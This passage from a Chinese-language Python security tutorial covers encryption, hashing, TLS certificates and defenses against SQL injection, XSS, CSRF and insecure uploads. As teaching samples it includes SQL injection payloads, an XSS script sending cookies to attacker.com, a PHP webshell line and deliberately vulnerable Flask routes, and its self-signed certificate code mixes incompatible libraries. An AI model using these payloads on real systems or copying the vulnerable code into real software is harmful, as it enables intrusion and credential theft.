    return data + bytes([padding_len] * padding_len)

def pkcs7_unpad(data: bytes) -> bytes:
    """移除 PKCS#7 填充"""
    return data[:-data[-1]]

def hybrid_encrypt(message: str, public_key_pem: str) -> dict:
    """
    混合加密：RSA 加密 AES 密钥 + AES 加密数据
    """
    # 1. 生成随机 AES 密钥
    aes_key = get_random_bytes(32)  # 256 位
    
    # 2. 用 RSA 公钥加密 AES 密钥
    rsa_key = RSA.import_key(public_key_pem)
    cipher_rsa = PKCS1_OAEP.new(rsa_key, hashAlgo=SHA256)
    encrypted_aes_key = cipher_rsa.encrypt(aes_key)
    
    # 3. 用 AES 加密实际数据
    iv = get_random_bytes(16)
    cipher_aes = AES.new(aes_key, AES.MODE_CBC, iv)
    padded_data = pkcs7_pad(message.encode('utf-8'))
    encrypted_data = cipher_aes.encrypt(padded_data)
    
    return {
        'encrypted_aes_key': binascii.hexlify(encrypted_aes_key).decode('utf-8'),
        'iv': binascii.hexlify(iv).decode('utf-8'),
        'encrypted_data': binascii.hexlify(encrypted_data).decode('utf-8')
    }

def hybrid_decrypt(encrypted_package: dict, private_key_pem: str) -> str:
    """
    混合解密
    """
    # 1. 用 RSA 私钥解密 AES 密钥
    rsa_key = RSA.import_key(private_key_pem)
    cipher_rsa = PKCS1_OAEP.new(rsa_key, hashAlgo=SHA256)
    encrypted_aes_key = binascii.unhexlify(encrypted_package['encrypted_aes_key'])
    aes_key = cipher_rsa.decrypt(encrypted_aes_key)
    
    # 2. 用 AES 密钥解密数据
    iv = binascii.unhexlify(encrypted_package['iv'])
    encrypted_data = binascii.unhexlify(encrypted_package['encrypted_data'])
    
    cipher_aes = AES.new(aes_key, AES.MODE_CBC, iv)
    decrypted_padded = cipher_aes.decrypt(encrypted_data)
    decrypted = pkcs7_unpad(decrypted_padded)
    
    return decrypted.decode('utf-8')

# 测试混合加密
message = "这是一条非常长的消息，我们可以加密任意长度的内容，因为使用了混合加密方案！"

encrypted_pkg = hybrid_encrypt(message, public_key)
print(f"加密后的数据包包含 3 部分（密钥、IV、数据）")
print(f"encrypted_aes_key 长度: {len(encrypted_pkg['encrypted_aes_key'])} 字符")
print(f"iv 长度: {len(encrypted_pkg['iv'])} 字符")
print(f"encrypted_data 长度: {len(encrypted_pkg['encrypted_data'])} 字符")

decrypted_msg = hybrid_decrypt(encrypted_pkg, private_key)
print(f"\n解密后: {decrypted_msg}")
print(f"成功？{message == decrypted_msg}")  # True
```

### 33.3.3 数字签名

**专业术语先解释**：数字签名（Digital Signature）是什么？想象你写了一封信，你在信的最后盖了一个印章——收到信的人看到这个印章就知道这封信确实是你写的，没有被人篡改。数字签名就是这个概念的数字版本：发送方用私钥"签名"，接收方用公钥"验证"。签名保证了两件事：**完整性**（消息没被改过）和**身份认证**（确实是签名者发的）。

**用 Python 实现数字签名**：

```python
from Crypto.PublicKey import RSA
from Crypto.Signature import pkcs1_15
from Crypto.Hash import SHA256
import binascii

def sign_message(message: str, private_key_pem: str) -> str:
    """
    使用 RSA 私钥对消息签名
    """
    key = RSA.import_key(private_key_pem)
    h = SHA256.new(message.encode('utf-8'))
    signature = pkcs1_15.new(key).sign(h)
    return binascii.hexlify(signature).decode('utf-8')

def verify_signature(message: str, signature_hex: str, public_key_pem: str) -> bool:
    """
    使用 RSA 公钥验证签名
    """
    try:
        key = RSA.import_key(public_key_pem)
        h = SHA256.new(message.encode('utf-8'))
        signature = binascii.unhexlify(signature_hex)
        pkcs1_15.new(key).verify(h, signature)
        return True
    except (ValueError, TypeError):
        return False

# 测试
original_message = "这是一条需要签名的消息"
print(f"原始消息: {original_message}")

signature = sign_message(original_message, private_key)
print(f"数字签名: {signature[:80]}...")

# 验证正确签名
is_valid = verify_signature(original_message, signature, public_key)
print(f"\n签名验证结果: {'✅ 有效' if is_valid else '❌ 无效'}")

# 验证被篡改的消息
tampered_message = "这是一条被篡改的消息"
is_valid_tampered = verify_signature(tampered_message, signature, public_key)
print(f"篡改后验证结果: {'✅ 有效' if is_valid_tampered else '❌ 无效（消息被篡改了！）'}")
```

**签名 vs 加密：区别在这里**：

```mermaid
flowchart LR
    subgraph 加密 - 保密性
        A["发送方"] -->|"用接收方公钥加密"| B["密文"]
        B -->|"用接收方私钥解密"| C["接收方"]
        C -->|"只有接收方能看| A"
    end
    
    subgraph 签名 - 认证
        D["发送方"] -->|"用发送方私钥签名"| E["签名"]
        E -->|"附加在消息上"| F["消息+签名"]
        F -->|"用发送方公钥验证"| G["接收方"]
        G -->|"确认是发送方发的| D"
    end
```

> 💡 **小贴士**：**签名和加密可以同时使用**！想象你寄一封重要的信——你先把信装进信封（加密，保证只有收件人能看），然后在信封上盖章（签名，保证是你寄的）。

### 33.3.4 哈希（MD5 / SHA-256）

**专业术语先解释**：哈希函数（Hash Function）是一种单向函数，把任意长度的输入变成固定长度的输出。好的哈希函数有三个特点：1）**单向性**——从输出几乎不可能倒推输入；2）**抗碰撞**——几乎找不到两个不同的输入产生相同的输出；3）**雪崩效应**——输入改变一点点，输出就完全不同。

**MD5：已被淘汰的传奇**：

MD5（Message-Digest Algorithm 5）曾经是最流行的哈希算法，但 2004 年被中国的王小云教授攻破——发现了快速碰撞的方法。现在 MD5 只能用于**校验文件完整性**（不是安全用途！），比如下载文件后验证文件是否损坏。

```python
import hashlib

def md5_hash(data: str) -> str:
    """
    计算 MD5 哈希（不推荐用于安全场景）
    """
    return hashlib.md5(data.encode('utf-8')).hexdigest()

# 示例：校验下载文件
file_content = "这是下载的文件内容"
expected_md5 = md5_hash(file_content)

# 验证文件
downloaded_content = "这是下载的文件内容"
actual_md5 = md5_hash(downloaded_content)

print(f"文件 MD5: {expected_md5}")
print(f"验证结果: {'✅ 文件完整' if expected_md5 == actual_md5 else '❌ 文件损坏或被篡改'}")
# 文件 MD5: 6d4741290c17def5b3c6cfc17abfb9c3
# 验证结果: ✅ 文件完整
```

**SHA-256：当今的主流选择**：

SHA-256（Secure Hash Algorithm 256-bit）是 SHA-2 系列的一员，目前被认为是安全的哈希算法。美国政府把它用于各种安全协议。

```python
import hashlib

def sha256_hash(data: str) -> str:
    """
    计算 SHA-256 哈希
    """
    return hashlib.sha256(data.encode('utf-8')).hexdigest()

# 测试
test_data = [
    "hello",
    "Hello",        # 大小写不同
    "hello world",  # 长度不同
    "这是一段中文"  # 中文
]

print("SHA-256 哈希演示：")
print("-" * 70)
for data in test_data:
    hash_value = sha256_hash(data)
    print(f"输入: {data!r:20s} -> 哈希: {hash_value}")
    # 输入: 'hello'              -> 哈希: 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
    # 输入: 'Hello'              -> 哈希: 185f8db32271fe25f561a6fc938b2e264306ec304eda518007d1764826381969
    # 输入: 'hello world'       -> 哈希: b94d27b9934d3e08a52e52d7da7dabfac484efe37a5380ee9088f7ace2efcde9
    # 输入: '这是一段中文'        -> 哈希: 56f413170b27358e9182d6f4ecbea44bbccbcadbf957b7c245a86a3a5bab93f1
```

**MD5 vs SHA-256：对比**：

```python
# 对比 MD5 和 SHA-256 的输出长度
test_string = "hello world"

md5_result = hashlib.md5(test_string.encode()).hexdigest()
sha256_result = hashlib.sha256(test_string.encode()).hexdigest()

print(f"MD5 输出长度: {len(md5_result)} 字符 (128 位)")
print(f"SHA-256 输出长度: {len(sha256_result)} 字符 (256 位)")

# 雪崩效应演示
str1 = "hello"
str2 = "hellp"  # 只差一个字符

print(f"\n雪崩效应演示（只改变最后一个字符 'o' -> 'p'）:")
print(f"SHA-256('hello'):  {sha256_hash(str1)}")
print(f"SHA-256('hellp'):  {sha256_hash(str2)}")
print(f"两者相等？{sha256_hash(str1) == sha256_hash(str2)}")
```

> 💡 **小贴士**：**永远不要用 MD5 做密码哈希！** 它已经被攻破了，黑客可以在几秒钟内算出任意字符串的 MD5。密码存储用 bcrypt 或 argon2，数据完整性校验用 SHA-256。

---

## 33.4 HTTPS 与证书

### 33.4.1 SSL / TLS 原理

**专业术语先解释**：SSL（Secure Sockets Layer）和 TLS（Transport Layer Security）是什么？想象你走进一家银行，你要和柜员说话。但这家银行非常谨慎——他们要求你必须通过防弹玻璃对话，柜员说的话你听到的已经加密了，你说的话也只有柜员能听到。SSL/TLS 就是互联网上的这层"防弹玻璃"，它保证了客户端和服务器之间的通信是加密的、完整的、可验证的。

**TLS 握手流程**（简化版）：



**Python 中使用 HTTPS**：

```python
import urllib.request
import ssl

def fetch_https_page(url: str) -> str:
    """
    使用 HTTPS 获取网页（Python 会自动验证证书）
    """
    try:
        with urllib.request.urlopen(url, timeout=10) as response:
            return response.read().decode('utf-8')
    except urllib.error.URLError as e:
        print(f"请求失败: {e}")
        return ""

# 请求 HTTPS 网站
response = fetch_https_page("https://www.example.com")
print(f"响应状态: 成功" if response else "失败")
print(f"内容预览: {response[:200]}..." if response else "")

# 自定义证书验证
def fetch_with_cert_validation(url: str, ca_cert: str = None):
    """
    自定义证书验证
    """
    context = ssl.create_default_context()
    
    if ca_cert:
        # 使用指定的 CA 证书
        context.load_verify_locations(ca_cert)
    else:
        # 使用系统默认的 CA 证书
        pass
    
    try:
        with urllib.request.urlopen(url, context=context, timeout=10) as response:
            print(f"✅ TLS 版本: {response.version}")
            print(f"✅ 加密算法: {response.cipher}")
            return response.read().decode('utf-8')
    except Exception as e:
        print(f"❌ 请求失败: {e}")
        return None

result = fetch_with_cert_validation("https://www.example.com")
```

**禁用证书验证的危险**：

```python
import urllib.request
import ssl

def fetch_without_cert_validation(url: str) -> str:
    """
    危险！禁用证书验证等于在公共场所裸聊！
    永远不要在生产环境中这样做！
    """
    # 创建不验证证书的 context
    context = ssl.create_default_context()
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE  # 不验证证书！
    
    # 中间人攻击已经成为可能！
    # 黑客可以伪造证书，你却不会发现
    with urllib.request.urlopen(url, context=context, timeout=10) as response:
        return response.read().decode('utf-8')

print("⚠️ 警告：不要禁用证书验证！")
print("   攻击者可以：")
print("   1. 伪造服务器证书")
print("   2. 截获你的所有通信")
print("   3. 窃取密码、cookie 等敏感信息")
```

### 33.4.2 证书验证

**专业术语先解释**：数字证书（Digital Certificate）是什么？想象你有一张身份证，上面有你的照片、姓名、身份证号，还有公安局的盖章——其他人看到这张身份证就能确认你确实是你。数字证书就是这个概念的数字版本：服务器有一张"身份证"（证书），上面有服务器的公钥、域名、有效期限，还有**证书颁发机构（CA）**的签名——浏览器看到这张证书就能确认服务器确实是它声称的那个服务器。

**证书验证的步骤**：
1. **证书链验证**：从服务器证书一直验证到根证书
2. **签名验证**：确认证书确实是由可信 CA 签发的
3. **有效期验证**：确认证书没有过期
4. **域名验证**：确认证书上的域名和你访问的网站一致

**Python 中验证服务器证书**：

```python
import ssl
import socket
import certifi  # 著名的 CA 证书集合包
from datetime import datetime

def get_certificate_info(host: str, port: int = 443) -> dict:
    """
    获取并解析服务器的 SSL 证书信息
    """
    # 创建 SSL 上下文，使用 certifi 提供的 CA 证书
    context = ssl.create_default_context(cafile=certifi.where())
    
    # 连接到服务器获取证书
    with socket.create_connection((host, port), timeout=10) as sock:
        with context.wrap_socket(sock, server_hostname=host) as ssock:
            cert_dict = ssock.getpeercert()
            
            # 检查证书有效期
            not_before = datetime.strptime(cert_dict['notBefore'], '%b %d %H:%M:%S %Y %Z')
            not_after = datetime.strptime(cert_dict['notAfter'], '%b %d %H:%M:%S %Y %Z')
            now = datetime.utcnow()
            is_valid = not_before <= now <= not_after
            
            return {
                'subject': dict(x[0] for x in cert_dict['subject']),
                'issuer': dict(x[0] for x in cert_dict['issuer']),
                'valid_from': not_before.isoformat(),
                'valid_until': not_after.isoformat(),
                'is_valid': is_valid,
            }

# 检查几个网站的证书
websites = ["www.example.com", "www.google.com", "expired.badssl.com"]

print("SSL 证书检查工具")
print("=" * 80)

for website in websites:
    print(f"\n检查: {website}")
    try:
        info = get_certificate_info(website)
        print(f"  主题: {info['subject']}")
        print(f"  颁发者: {info['issuer']}")
        print(f"  有效期: {info['valid_from']} ~ {info['valid_until']}")
        print(f"  当前状态: {'✅ 有效' if info['is_valid'] else '❌ 已过期或未生效'}")
    except Exception as e:
        print(f"  ❌ 检查失败: {e}")

# 运行结果示例：
# 检查: www.example.com
#   主题: (('countryName', 'US'), ('stateOrProvinceName', 'California'), ...)
#   颁发者: (('countryName', 'US'), ('organizationName', "Let's Encrypt"), ...)
#   有效期: 2023-08-01T00:00:00 ~ 2024-08-01T23:59:59
#   当前状态: ✅ 有效
```

**自签名证书 vs CA 证书**：

```python
# 生成自签名证书（用于开发/测试）
from cryptography import x509
from cryptography.x509.oid import NameOID
from cryptography.hazmat.primitives import hashes
from datetime import datetime, timedelta
import secrets

def generate_self_signed_cert(common_name="localhost", days_valid=365):
    """
    生成自签名证书（仅用于开发/测试环境！）
    """
    from Crypto.PublicKey import RSA
    from cryptography import x509
    from cryptography.x509.oid import NameOID
    from cryptography.hazmat.primitives import hashes
    from datetime import datetime, timedelta

    # 生成密钥
    key = RSA.generate(2048)

    # 证书信息
    subject = issuer = x509.Name([
        x509.NameAttribute(NameOID.COUNTRY_NAME, "CN"),
        x509.NameAttribute(NameOID.STATE_OR_PROVINCE_NAME, "Beijing"),
        x509.NameAttribute(NameOID.LOCALITY_NAME, "Beijing"),
        x509.NameAttribute(NameOID.ORGANIZATION_NAME, "Development"),
        x509.NameAttribute(NameOID.COMMON_NAME, common_name),
    ])
    
    # 构建证书
    cert = (
        x509.CertificateBuilder()
        .subject_name(subject)
        .issuer_name(issuer)
        .public_key(key.public_key())
        .serial_number(x509.random_serial_number())
        .not_valid_before(datetime.utcnow())
        .not_valid_after(datetime.utcnow() + timedelta(days=days_valid))
        .add_extension(
            x509.SubjectAlternativeName([
                x509.DNSName(common_name),
                x509.DNSName("localhost"),
            ]),
            critical=False,
        )
        .sign(key, hashes.SHA256())
    )
    
    return key, cert

# 生成测试证书
print("⚠️ 生成自签名证书（仅用于开发！）")
key, cert = generate_self_signed_cert("my-dev-server")

print(f"证书主题: {cert.subject.rfc4514_string()}")
print(f"证书颁发者: {cert.issuer.rfc4514_string()}")
print("✅ 自签名证书生成完成")
```

> 💡 **小贴士**：**自签名证书永远不要用在生产环境**！因为你无法证明它是可信的——任何人都可以生成一个"google.com"的自签名证书来冒充谷歌。生产环境必须使用受信任 CA 颁发的证书（Let's Encrypt 提供免费证书！）。

---

## 33.5 常见漏洞防护

### 33.5.1 SQL 注入

**专业术语先解释**：SQL 注入（SQL Injection）是什么？简单说就是黑客把 SQL 命令"注入"到你的查询中，让数据库执行黑客想要的操作。在 33.1.2 节我们已经讲过参数化查询来防止它，现在让我们更深入地看看常见的注入攻击和防护。

**常见的 SQL 注入攻击类型**：

```python
import sqlite3

def demonstrate_sqli_attacks():
    """
    演示 SQL 注入攻击的各种形式
    """
    # 创建测试数据库
    conn = sqlite3.connect(':memory:')
    cursor = conn.cursor()
    cursor.execute('''
        CREATE TABLE users (
            id INTEGER PRIMARY KEY,
            username TEXT,
            password TEXT,
            role TEXT
        )
    ''')
    cursor.executemany(
        'INSERT INTO users VALUES (?, ?, ?, ?)',
        [
            (1, 'admin', 'admin123', 'admin'),
            (2, 'alice', 'alice123', 'user'),
            (3, 'bob', 'bob123', 'user')
        ]
    )
    conn.commit()
    
    print("=" * 70)
    print("SQL 注入攻击演示")
    print("=" * 70)
    
    # 攻击1：绕过登录
    print("\n【攻击1：万能密码】")
    print("场景：登录系统，用户名输入框")
    
    # 恶意输入
    malicious_username = "' OR '1'='1"
    
    # 不安全的查询
    unsafe_query = f"SELECT * FROM users WHERE username = '{malicious_username}'"
    cursor.execute(unsafe_query)
    result = cursor.fetchall()
    print(f"攻击输入: {malicious_username}")
    print(f"执行的SQL: {unsafe_query}")
    print(f"结果: 返回了 {len(result)} 条记录！绕过了密码检查！")
    print(f"返回数据: {result}")
    
    # 安全的查询
    safe_query = "SELECT * FROM users WHERE username = ?"
    cursor.execute(safe_query, (malicious_username,))
    result = cursor.fetchall()
    print(f"\n参数化查询: {safe_query}")
    print(f"参数: {malicious_username}")
    print(f"结果: {len(result)} 条记录（正确！无法注入）")
    
    # 攻击2：UNION 注入
    print("\n【攻击2：UNION 注入 - 窃取其他表的数据】")
    union_payload = "' UNION SELECT 1, sqlite_version(), '3', '4'--"
    unsafe_union = f"SELECT username, password FROM users WHERE username = '{union_payload}'"
    print(f"攻击输入: {union_payload}")
    print(f"执行的SQL: {unsafe_union}")
    try:
        cursor.execute(unsafe_union)
        result = cursor.fetchall()
        print(f"结果: 黑客获取到了 SQLite 版本: {result}")
    except Exception as e:
        print(f"错误: {e}")
    
    # 攻击3：注释注入
    print("\n【攻击3：注释注入】")
    comment_payload = "admin'--"
    unsafe_comment = f"SELECT * FROM users WHERE username = '{comment_payload}' AND password = 'anything'"
    print(f"攻击输入: {comment_payload}")
    print(f"完整SQL（含假密码）: SELECT * FROM users WHERE username = 'admin' AND password = 'anything'")
    print(f"实际执行: SELECT * FROM users WHERE username = 'admin'--")
    print("结果: 密码检查被注释掉了！")
    
    conn.close()

demonstrate_sqli_attacks()
```

**防护措施清单**：

```python
import sqlite3
from typing import List, Tuple, Any

class SafeDatabase:
    """
    安全数据库操作类 - 演示最佳实践
    """
    
    def __init__(self, db_path: str):
        self.conn = sqlite3.connect(db_path, check_same_thread=False)
        self.conn.row_factory = sqlite3.Row
        self.cursor = self.conn.cursor()
    
    def execute_safe_query(self, query: str, params: Tuple = ()) -> List[sqlite3.Row]:
        """
        执行安全的查询（参数化查询）
        """
        # 永远不要拼接用户输入到 SQL！
        self.cursor.execute(query, params)
        return self.cursor.fetchall()
    
    def execute_safe_insert(self, table: str, data: dict) -> int:
        """
        安全插入数据
        """
        columns = ', '.join(data.keys())
        placeholders = ', '.join(['?'] * len(data))
        query = f"INSERT INTO {table} ({columns}) VALUES ({placeholders})"
        
        self.cursor.execute(query, tuple(data.values()))
        self.conn.commit()
        return self.cursor.lastrowid
    
    def search_users(self, search_term: str) -> List[Tuple]:
        """
        安全的用户搜索（防止注入）
        """
        query = "SELECT id, username, role FROM users WHERE username LIKE ?"
        self.cursor.execute(query, (f'%{search_term}%',))
        return self.cursor.fetchall()
    
    def close(self):
        self.conn.close()

# 测试
db = SafeDatabase(':memory:')
db.cursor.execute('''
    CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT, role TEXT)
''')
db.execute_safe_insert('users', {'username': 'alice', 'password': 'hashed_pwd', 'role': 'user'})

# 安全的搜索
search_result = db.search_users("ali")
print(f"搜索 'ali' 结果: {search_result}")

# 即使输入 SQL 注入 payload 也会被当作数据处理
malicious_search = "' OR '1'='1"
search_result = db.search_users(malicious_search)
print(f"搜索注入 payload 结果: {search_result}")
```

### 33.5.2 XSS（跨站脚本攻击）

**专业术语先解释**：XSS（Cross-Site Scripting，跨站脚本攻击）是什么？黑客在你的网站上注入恶意 JavaScript 脚本，当其他用户访问时，这些脚本会在他们的浏览器里执行。攻击者可以窃取 cookie、session、密码，或者修改页面内容欺骗用户。

**XSS 攻击的三种类型**：

```python
def demonstrate_xss_attacks():
    """
    演示 XSS 攻击的三种类型
    """
    print("=" * 70)
    print("XSS 跨站脚本攻击演示")
    print("=" * 70)
    
    # 1. 存储型 XSS（Stored XSS）- 最危险！
    print("\n【存储型 XSS】恶意脚本被永久保存在服务器上")
    print("攻击场景：用户在论坛发帖，帖子包含恶意脚本")
    print("后果：每个查看该帖子的用户都会执行恶意脚本")
    
    # 恶意评论
    malicious_comment = """
    <script>
        // 窃取访问者的 cookie
        document.location = 'https://attacker.com/steal?cookie=' + document.cookie;
    </script>
    """
    print(f"恶意评论内容: {malicious_comment[:50]}...")
    
    # 2. 反射型 XSS（Reflected XSS）
    print("\n【反射型 XSS】恶意脚本通过 URL 参数传递")
    print("攻击场景：搜索功能，搜索词显示在结果页面")
    
    malicious_url = "https://example.com/search?q=<script>alert('XSS')</script>"
    print(f"恶意链接: {malicious_url}")
    print("用户点击链接 -> 弹出 alert 框")
    
    # 3. DOM 型 XSS（DOM-based XSS）
    print("\n【DOM 型 XSS】恶意脚本通过修改页面 DOM 执行")
    print("攻击场景：JavaScript 从 URL 读取内容并直接写入页面")
    
    dom_payload = "javascript:alert('DOM XSS')"
    print(f"DOM XSS payload: {dom_payload}")
    
    # 防护措施
    print("\n" + "=" * 70)
    print("XSS 防护措施")
    print("=" * 70)
    
    from html import escape
    
    def safe_display_user_content(content: str) -> str:
        """
        安全地显示用户内容
        """
        # 1. HTML 转义
        escaped = escape(content, quote=True)
        # 2. 限制长度
        escaped = escaped[:1000]
        return escaped
    
    def safe_display_json(data: dict) -> str:
        """
        安全地显示 JSON 数据（用于 AJAX 响应）
        """
        import json
        # JSON 编码会自动转义特殊字符
        return json.dumps(data)
    
    # 测试防护
    test_input = '<script>alert("XSS")</script>'
    safe_output = safe_display_user_content(test_input)
    print(f"\n输入: {test_input}")
    print(f"转义后: {safe_output}")
    print("✅ 恶意脚本变成了无害的文本！")

demonstrate_xss_attacks()
```

**Flask 应用中的 XSS 防护**：

```python
# Flask 中使用 Jinja2 模板引擎，默认会自动转义 HTML
# 但要小心使用 | safe 过滤器！

from flask import Flask, request, render_template_string

app = Flask(__name__)

# ❌ 危险！禁用转义
@app.route('/dangerous')
def dangerous():
    user_input = request.args.get('content', '')
    # 永远不要这样做！
    return f"<div>{user_input}</div>"

# ✅ 安全！使用 Jinja2 默认转义
@app.route('/safe')
def safe():
    user_input = request.args.get('content', '')
    return render_template_string("<div>{{ content }}</div>", content=user_input)

# ✅ 安全！手动转义
@app.route('/safe2')
def safe2():
    from markupsafe import escape
    user_input = request.args.get('content', '')
    return f"<div>{escape(user_input)}</div>"

# ✅ 安全！使用 Content Security Policy (CSP) 头
@app.route('/with-csp')
def with_csp():
    response = app.make_response("Your page content")
    response.headers['Content-Security-Policy'] = "default-src 'self'"
    return response

print("Flask XSS 防护要点：")
print("1. 使用 Jinja2 默认模板渲染（自动转义）")
print("2. 永远不要在 HTML 上下文中使用 | safe")
print("3. 使用 markupsafe.escape() 手动转义")
print("4. 配置 Content-Security-Policy 头")
```

### 33.5.3 CSRF（跨站请求伪造）

**专业术语先解释**：CSRF（Cross-Site Request Forgery，跨站请求伪造）是什么？想象你去银行转账，填好表格后还没点"确认"——但此时你同时打开了另一个网页，那个网页里有一个隐藏的表单自动提交了，你的银行账户就被转账了。CSRF 就是这个原理：利用用户已登录的身份，诱导用户的浏览器向目标网站发送请求。

**CSRF 攻击流程图解**：



**Flask 中的 CSRF 防护**：

```python
from flask import Flask, request, session, render_template_string
import secrets
import hmac

app = Flask(__name__)
app.secret_key = secrets.token_hex(32)

# CSRF Token 管理
def generate_csrf_token():
    """生成 CSRF token"""
    if '_csrf_token' not in session:
        session['_csrf_token'] = secrets.token_hex(32)
    return session['_csrf_token']

def validate_csrf_token(token):
    """验证 CSRF token"""
    if '_csrf_token' not in session:
        return False
    return hmac.compare_digest(session['_csrf_token'], token)

# 模拟银行转账
@app.route('/transfer', methods=['GET', 'POST'])
def transfer():
    if request.method == 'GET':
        # 显示转账表单
        token = generate_csrf_token()
        return render_template_string("""
            <form method="POST">
                <input type="hidden" name="csrf_token" value="{{ token }}">
                收款账户: <input type="text" name="to_account"><br>
                金额: <input type="number" name="amount"><br>
                <button type="submit">转账</button>
            </form>
        """, token=token)
    else:
        # 处理转账请求
        submitted_token = request.form.get('csrf_token', '')
        
        # ❌ 危险！没有验证 CSRF token
        # 直接执行转账，黑客可以用同样的方式伪造请求
        
        # ✅ 安全！验证 CSRF token
        if not validate_csrf_token(submitted_token):
            return "❌ CSRF 验证失败！可能的 CSRF 攻击！", 403
        
        # CSRF 验证通过，执行转账
        to_account = request.form.get('to_account', '')
        amount = request.form.get('amount', '')
        return f"✅ 成功向 {to_account} 转账 {amount} 元"

print("CSRF 防护要点：")
print("1. 在表单中添加 CSRF token")
print("2. 提交时验证 token")
print("3. 使用 hmac.compare_digest 防止时序攻击")
print("4. 使用成熟的库如 Flask-WTF")
print("5. 设置 SameSite Cookie 属性")
```

**SameSite Cookie 防护**：

```python
# 设置 SameSite Cookie 可以防止 CSRF 攻击
from flask import Flask, make_response

app = Flask(__name__)

@app.route('/set-cookie')
def set_cookie():
    response = make_response("Cookie 设置成功")
    # SameSite=Lax: 只在导航到同站点时发送 Cookie
    # SameSite=Strict: 完全不发送 Cookie（太严格，可能影响用户体验）
    # SameSite=None: 允许跨站发送（需要 Secure 属性）
    response.set_cookie('session_id', 'abc123', samesite='Lax', secure=True)
    return response

print("SameSite Cookie 配置：")
print("SameSite=Lax: 推荐，大多数场景下安全且用户体验好")
print("SameSite=Strict: 非常安全，但可能影响某些导航")
print("SameSite=None: 允许跨站，需要配合 Secure（HTTPS）使用")
```

### 33.5.4 文件上传漏洞

**专业术语先解释**：文件上传漏洞（File Upload Vulnerability）是什么？你的网站允许用户上传头像、文档等文件，但如果检查不严格，黑客可以上传一个恶意文件（比如 WebShell），然后通过访问这个文件来控制整个服务器。想象你开了一家餐厅，允许客人带食物进来——但如果有人带了一颗炸弹进来呢？

**危险的文件上传**：

```python
# ❌ 危险的服务器代码！
import os
from flask import Flask, request, redirect

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = '/var/www/uploads'

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        if 'file' not in request.files:
            return '没有文件！'
        
        file = request.files['file']
        if file.filename == '':
            return '没有选择文件！'
        
        # ❌ 危险！没有检查文件类型和内容！
        # 黑客可以上传 test.php，内容是 <?php system($_GET['cmd']); ?>
        # 然后访问 http://example.com/uploads/test.php?cmd=ls 就能执行命令！
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))
        return f'文件 {file.filename} 上传成功！'
    
    return '''
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">上传</button>
    </form>
    '''
```

**安全的文件上传**：

```python
# ✅ 安全的服务器代码
import os
import hashlib
from flask import Flask, request, jsonify
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = '/var/www/uploads'
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024 * 1024  # 最大 16MB

ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf'}  # 允许的扩展名

def allowed_file(filename: str) -> bool:
    """
    检查文件扩展名
    """
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def is_safe_file_mime(file) -> bool:
    """
    检查文件的 MIME 类型
    """
    # 简单检查，实际使用 python-magic 更可靠
    allowed_mimes = {'image/png', 'image/jpeg', 'image/gif', 'application/pdf'}
    return file.content_type in allowed_mimes

def upload_secure_file(file):
    """
    安全地上传文件
    """
    # 1. 检查文件是否为空
    if file.filename == '':
        return None, "没有选择文件"
    
    # 2. 检查扩展名
    if not allowed_file(file.filename):
        return None, "不允许的文件类型"
    
    # 3. 检查文件大小
    file.seek(0, os.SEEK_END)
    file_size = file.tell()
    file.seek(0)
    
    if file_size > app.config['MAX_CONTENT_LENGTH']:
        return None, "文件太大"
    
    # 4. 验证 MIME 类型
    if not is_safe_file_mime(file):
        return None, "文件类型验证失败"
    
    # 5. 重命名文件（防止文件名冲突和特殊字符）
    original_filename = secure_filename(file.filename)
    file_ext = original_filename.rsplit('.', 1)[1].lower()
    new_filename = f"{hashlib.sha256(original_filename.encode()).hexdigest()[:16]}.{file_ext}"
    
    # 6. 保存文件
    file_path = os.path.join(app.config['UPLOAD_FOLDER'], new_filename)
    file.save(file_path)
    
    return file_path, "上传成功"

@app.route('/upload-safe', methods=['GET', 'POST'])
def upload_file_safe():
    if request.method == 'POST':
        if 'file' not in request.files:
            return jsonify({"error": "没有文件"}), 400
        
        file = request.files['file']
        file_path, message = upload_secure_file(file)
        
        if file_path:
            return jsonify({
                "message": message,
                "filename": os.path.basename(file_path)
            })
        else:
            return jsonify({"error": message}), 400
    
    return '''
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png,.jpg,.jpeg,.gif,.pdf">
        <button type="submit">上传</button>
    </form>
    '''

print("文件上传安全检查清单：")
print("✅ 1. 检查文件扩展名")
print("✅ 2. 验证文件真实类型（MIME type）")
print("✅ 3. 限制文件大小")
print("✅ 4. 重命名文件，不要使用用户原始文件名")
print("✅ 5. 将上传目录放在 Web 根目录之外")
print("✅ 6. 设置正确的文件权限")
print("✅ 7. 考虑使用对象存储（如 S3）代替本地存储")
```

---

## 本章小结

好了各位安全小卫士，我们已经走马观花地浏览了 Python 安全的大部分重要主题。让我来做一个快速的回顾：

### 核心要点

1. **永远不要相信用户输入**
   - 输入验证是安全的第一道防线
   - 使用白名单验证，不要用黑名单
   - 清洗和转义用户输入

2. **参数化查询防止 SQL 注入**
   - 永远不要拼接用户输入到 SQL
   - 使用参数化查询或 ORM

3. **XSS 防护：输出编码**
   - 根据输出上下文选择正确的编码方式
   - HTML 上下文用 HTML 转义，JavaScript 上下文用 JSON 转义

4. **密码安全**
   - **永远不要明文存储密码**
   - 使用 bcrypt 或 argon2 哈希
   - 每个密码都要有随机盐值
   - 验证密码强度

5. **加密选择**
   - 对称加密（AES）：速度快，用于加密数据
   - 非对称加密（RSA）：用于加密密钥和签名
   - **永远不要自己实现加密算法**，使用成熟的库

6. **HTTPS 是基础**
   - 生产环境必须使用 HTTPS
   - 永远不要禁用证书验证
   - 使用受信任 CA 颁发的证书

7. **常见漏洞防护**
   - SQL 注入：参数化查询
   - XSS：输出编码
   - CSRF：CSRF Token + SameSite Cookie
   - 文件上传：验证类型、重命名、隔离存储

### 推荐学习资源

- OWASP（开放 Web 应用安全项目）官网
- Python 的 `cryptography` 库文档
- 安全相关的 CTF 比赛 Write-up

### 最后的安全准则

